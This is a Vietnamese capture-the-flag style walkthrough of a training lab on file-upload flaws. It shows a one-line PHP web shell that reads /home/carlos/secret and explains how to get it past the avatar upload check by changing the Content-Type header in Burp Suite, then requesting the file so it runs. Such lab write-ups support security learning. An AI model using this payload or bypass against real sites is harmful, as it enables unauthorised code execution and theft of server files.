 # Lab: Web shell upload via Content-Type restriction bypass

> Phòng lab này chứa lỗ hổng file upload trong phần upload avatar. Nó ngăn người dùng tải lên các loại tệp không mong muốn, nhưng dựa vào việc kiểm tra thông tin đầu vào do người dùng kiểm soát để xác minh điều này
> 
> Để giải quyết phòng lab, hãy tải lên một web shell PHP cơ bản và sử dụng nó để lấy nội dung của file mật `/home/carlos/secret`. Gửi nội dung lấy được bằng nút **Submit**
>
> Hãy đăng nhập vào account `wiener:peter` để upload avatar

Thử upload file exploit.php với nội dung 
> `<?php echo  file_get_contents('/home/carlos/secret'); ?>`

thì trang web trả về phản hồi 
`Sorry, file type application/octet-stream is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.`

Vậy là đầu vào được giới hạn chỉ nhận file ảnh. Mình có thể can thiệp vào quá trình tải file lên bằng cách bắt request bằng burp suite và chuyển sang tab repeater để thực hiện.

>![](1.png)

Ở đây có thể thấy được thông tin, loại file mà mình đã tải lên. Lúc này mình can thiệp vào nó bằng cách sửa `Content-Type` thành loại file được cho phép là `image/jpeg` hoặc `image/png` và **Send** thì thấy phản hồi upload thành công.

Lúc này thì sử dụng request GET mở file .php đã upload để thực thi code `GET /files/avatars/exploit/php HTTP/1.1` và có được secret 
